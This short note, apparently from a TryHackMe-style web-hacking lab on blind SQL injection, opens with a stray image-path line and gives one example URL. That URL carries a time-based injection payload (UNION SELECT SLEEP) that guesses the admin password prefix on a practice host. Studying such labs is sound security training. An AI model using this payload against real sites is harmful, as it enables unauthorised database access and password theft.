 Blind SQL Injection

```
https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like '4961%';
```

